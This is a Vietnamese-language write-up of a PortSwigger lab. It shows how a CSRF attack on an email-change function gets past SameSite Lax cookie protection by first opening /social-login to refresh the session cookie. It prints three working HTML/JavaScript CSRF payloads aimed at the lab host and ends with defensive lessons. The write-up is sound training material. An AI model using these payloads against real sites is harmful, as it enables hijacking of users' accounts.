





# Write-up: SameSite Lax bypass via cookie refresh

### Tổng quan
Khai thác lỗ hổng Cross-Site Request Forgery (CSRF) trong chức năng thay đổi email của ứng dụng, nơi cookie phiên không có thuộc tính `SameSite` rõ ràng nhưng hoạt động theo chế độ `Lax` mặc định. Ứng dụng yêu cầu đăng nhập lại qua OAuth sau 2 phút, làm mới cookie phiên thông qua endpoint `/social-login`. Tận dụng hành vi này, sử dụng HTML form và script trong Exploit Server để mở `/social-login` nhằm làm mới cookie, sau đó gửi yêu cầu POST giả mạo để thay đổi email của nạn nhân, bypass hạn chế `SameSite Lax`, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CSRF bằng cách sử dụng endpoint `/social-login` để làm mới cookie phiên, bypass hạn chế `SameSite Lax`, gửi yêu cầu POST giả mạo đến `/my-account/change-email` từ Exploit Server, thay đổi email của nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và truy cập `/my-account` để thay đổi email
    
- **Quan sát**:
    - Response header `Set-Cookie` không chứa thuộc tính `SameSite`, gợi ý cookie hoạt động theo chế độ `Lax` mặc định.
    - Yêu cầu POST không yêu cầu `csrf token`, cho thấy không có cơ chế CSRF token bảo vệ:

- Kiểm tra endpoint `/oauth-callback?code=[...]` sau khi đăng nhập qua OAuth:
    
    - **Quan sát**: Response không có thuộc tính `SameSite` trong `Set-Cookie`, xác nhận cookie phiên có thể được gửi trong các yêu cầu cross-site nhất định:

2. **Kiểm tra hành vi ứng dụng**
- Tạo payload `CSRF` để kiểm tra hành vi ứng dụng và đưa vào Exploit Server 
    ```html
    <html>
      <body>
        <form action="https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="2222@gmail.com" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```
- Store và view exploit trong Exploit Server.
- Quan sát:
    - Nếu thực hiện trong vòng 2 phút sau khi đăng nhập, yêu cầu POST thành công, email được đổi, do cookie phiên được gửi kèm (phù hợp với SameSite Lax trong top-level navigation).
    - Sau 2 phút, ứng dụng yêu cầu đăng nhập lại qua OAuth, chuyển hướng đến `/social-login`, làm mới cookie phiên:
      

- **Kết luận**: Có thể làm mới cookie phiên bằng cách truy cập `/social-login` trước khi gửi yêu cầu POST, bypass hạn chế `SameSite Lax`.

3. **Khai thác (Exploitation)**
- Tạo payload CSRF để bypass `SameSite Lax` và đưa vào Exploit Server:
    ```html
    <html>
      <body>
        <form method="POST" action="https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/my-account/change-email">
          <input type="hidden" name="email" value="pwn@peter.com">
        </form>
        <script>
          window.open('https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/social-login');
          setTimeout(changeEmail, 5000);
          function changeEmail(){
            document.forms[0].submit();
          }
        </script>
      </body>
    </html>
    ```
- Store và view exploit để kiểm tra:
    - Script mở `/social-login` bằng `window.open`, kích hoạt OAuth flow để làm mới cookie phiên.
    - Sau 5 giây (`setTimeout`), form tự động gửi yêu cầu POST đến `/my-account/change-email`, thay đổi email thành `pwn@peter.com`.
    - **Kết quả**: Yêu cầu thành công do cookie mới được gửi kèm trong top-level navigation:
        

- Tạo payload cuối cùng cho nạn nhân:
    ```html
    <html>
      <body>
        <form method="POST" action="https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/my-account/change-email">
          <input type="hidden" name="email" value="wiener@peter.com">
        </form>
        <script>
          window.open('https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/social-login');
          setTimeout(changeEmail, 5000);
          function changeEmail(){
            document.forms[0].submit();
          }
        </script>
      </body>
    </html>
    ```

- Gửi payload đến nạn nhân qua chức năng "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân truy cập trang Exploit Server, script mở `/social-login`, làm mới cookie phiên qua OAuth. Sau 5 giây, form gửi yêu cầu POST, thay đổi email thành `wiener@peter.com` và hoàn thành lab.
        

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CSRF bằng cách làm mới cookie phiên qua endpoint `/social-login`, bypass hạn chế `SameSite Lax` để gửi yêu cầu POST giả mạo trong top-level navigation.
- Nhận thức tầm quan trọng của việc triển khai thuộc tính `SameSite=Strict` cho cookie phiên, sử dụng CSRF token, và hạn chế các endpoint làm mới cookie để ngăn chặn các cuộc tấn công CSRF.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác CSRF bằng cách làm mới cookie phiên để bypass hạn chế `SameSite Lax`, nhấn mạnh tầm quan trọng của việc cấu hình `SameSite=Strict`, sử dụng CSRF token, và bảo vệ các endpoint làm mới cookie. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*